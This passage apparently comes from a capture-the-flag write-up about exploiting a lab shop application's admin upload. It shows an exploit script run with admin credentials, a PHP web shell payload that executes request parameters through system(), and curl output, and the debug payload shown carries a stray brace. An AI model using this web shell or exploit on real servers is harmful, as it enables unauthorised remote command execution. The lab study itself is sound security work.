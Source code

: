I’ll use the exploit script from here out, but it would be just as easy to do things manually. Running the exploit from searchsploit doesn’t completely work, returning an empty line where the output should be:

```bash
root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id
```

The exploit is nice enough to give me the address of the webshell, and visiting it returns an empty page:

```bash
root@kali# curl -v http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id
*   Trying 10.10.10.207:80...
* Connected to 10.10.10.207 (10.10.10.207) port 80 (#0)
> GET /shop/vqmod/xml/S59WW.php?c=id HTTP/1.1
> Host: 10.10.10.207
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 16 Jan 2021 20:00:20 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.10.207 left intact
```

So the upload succeeded, but the execution isn’t working. I can check that a different way by modifying the script. It’s this line that sets the payload:

```bash
files = {
        'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }```

I’ll change that to something more benign:

```files = {
        'vqmod': (rand + ".php", "<?php echo 'darksec was here'; } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```

it works:

```bash
root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/XPKU4.php?c=id
darksec was here
```
